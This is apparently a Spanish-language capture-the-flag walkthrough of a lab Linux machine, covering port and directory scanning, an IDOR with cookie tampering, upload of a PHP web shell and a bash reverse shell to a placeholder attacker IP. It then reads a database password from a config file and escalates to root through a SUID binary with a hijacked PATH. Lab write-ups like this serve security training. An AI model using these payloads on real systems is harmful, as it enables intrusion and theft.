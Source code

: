 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.139.174

PING 10.129.139.174 (10.129.139.174) 56(84) bytes of data.
64 bytes from 10.129.139.174: icmp_seq=1 ttl=63 time=223 ms

--- 10.129.139.174 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 223.273/223.273/223.273/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.129.139.174 -oG openPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 22,80 -sCV 10.129.139.174 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 22     | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80     | http     | Apache httpd 2.4.29 ((Ubuntu))                               |

🗹 Enumerar posibles rutas:

```shell
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.139.174/FUZZ -t 80

themes                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 163ms]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 164ms]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 5782ms]
js                      [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 178ms]
fonts                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 177ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 176ms]
```

```shell
ffuf -w /usr/share/seclists/Discovery/Web-Content/apache.txt -u http://10.129.95.191/FUZZ -t 80

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 355ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 167ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 165ms]
```

🗹 En el código fuente se puede ver la ruta `<script src="/cdn-cgi/login/script.js"></script>` dentro de la etiqueta `<script>`.

🗹 Ingresar a la URL `http://10.129.107.1/cdn-cgi/login/` e ingresar como invitado haciendo click en `Login as Guest`.

🗹 En la sección `Account` en la URL modificar el valor del parámetro `id` por el número `1`.  Se obtienen los valores `Name` y `Access ID`.

🗹 Modificar el valor de la cookie `role` por el valor obtenido `Name` y el valor de la cookie `user` por  el valor obtenido de `Access ID`. Recargar la página e ir a la sección `Uploads` para verificar si ya podemos subir archivos.

🗹 Crear un archivo `php`:

```shell
<?php
	system($_GET['cmd']);
?>
```

🗹 Subir el archivo.

🗹 Poner en escucha la máquina atacante con `netcat`, `nc -lnvp 1234`.

🗹 En la URL en el directorio `uploads` ingresar al archivo subido pasarle el comando `bash -c "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1"` al parámetro `cmd`, dejando la URL: `10.129.107.1/uploads/shell.php?cmd=bash -c "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1"`.

🗹 En el directorio `/var/www/html/cdn-cgi/login` se encuentra el archivo `db.php` en el que se encuentran los datos para acceder a la base de datos:

```shell
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 

<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

🗹 Cambiar al usuario `robert` con la contraseña encontrada `M3g4C0rpUs3r!`.
## User flag

La flag del usuario está en el directorio `/home/robert/user.txt`.

🗹 Ver a que grupos pertenece el usuario `robert`:

```shell
robert@oopsie:/var/www/html/cdn-cgi/login$ id

uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

🗹 Al listar los permisos del binario `bugtracker` se ve que tiene permisos SUID.

🗹 Al ejecutar el binario `bugtracker` pide un número de reporte y al indicarle un número de reporte inexistente vemos que realizar un `cat` del número de reporte indicado dentro del directorio `/root/reports/`.

🗹 Crear un archivo `cat` dentro del directorio `/tmp`:

```shell
#!/bin/bash

/bin/bash -p
```

🗹 Modificar el **PATH** para que cuando el binario `bugtracker` haga el cat en vez de buscarlo en la ruta perteneciente al `cat` real lo busque en el directorio `\tmp` y como el binario `bugtracker` tiene permisos **SUID** cuando ejecute el `cat` creado en el directorio `/tmp` lo va a ejecutar como el usuario `root` y va a ejecutar el comando `bash -p`:

```shell
export PATH=/tmp:$PATH
```

🗹 Ejecutar el binario `bugtracker`.
## Root flag

La flag se encuentra en el directorio `/root`.